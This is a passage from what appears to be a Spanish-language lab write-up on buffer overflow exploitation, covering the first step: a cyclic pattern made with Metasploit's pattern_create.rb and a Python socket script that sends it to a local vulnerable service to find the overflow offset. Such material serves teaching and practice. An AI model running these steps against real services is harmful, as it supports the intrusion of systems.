 ### Comprobacion de desbordamiento de Buffer

En el `host`, generamos una cadena de caracteres diseñada para intentar desbordar el `buffer` de la aplicación. Esto se logra con la herramienta `pattern_create.rb`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Info:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Este patrón se usará como entrada en la aplicación para identificar cómo se maneja el `buffer`.

Conectamos al servicio vulnerable usando `netcat`:

> Host:

```shell
netcat 127.0.0.1 20201
```

Introducimos los `400` caracteres generados previamente. Para automatizar este paso, creamos un script en `Python`:

> step1.py

Este script automatiza la conexión y el envío del patrón:

```python
#!/usr/bin/python3

import socket

target_ip = "127.0.0.1"
target_port = 9000

test_pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A"

def send_payload():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((target_ip, target_port))
        sock.send(test_pattern + b"\r\n")

if __name__ == '__main__':
    send_payload()
```
